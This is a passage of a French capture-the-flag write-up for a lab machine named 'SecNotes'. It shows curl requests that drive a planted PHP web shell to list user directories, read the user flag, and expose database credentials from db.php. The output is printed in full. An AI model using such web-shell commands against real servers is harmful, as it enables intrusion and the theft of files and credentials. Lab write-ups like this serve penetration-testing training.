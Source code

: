 ```plain
$ curl --data 'f=scandir&a=c:/users/&rf=print_r' http://secnotes.htb:8808/devloop_.php
Array
(
    [0] => .
    [1] => ..
    [2] => Administrator
    [3] => All Users
    [4] => Default
    [5] => Default User
    [6] => DefaultAppPool
    [7] => Public
    [8] => desktop.ini
    [9] => new
    [10] => newsite
    [11] => tyler
    [12] => wayne
)
```

On trouve notre premier flag :  

```plain
$ curl --data 'f=readfile&a=c:/users/tyler/desktop/user.txt' http://secnotes.htb:8808/devloop_.php
6fa7556968052a83183fb8099cb904f3
```

Et des identifiants dans *C:/inetpub/wwwroot/db.php* :  

```php
<?php

if ($includes != 1) {
    die("ERROR: Should not access directly.");
}

/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```
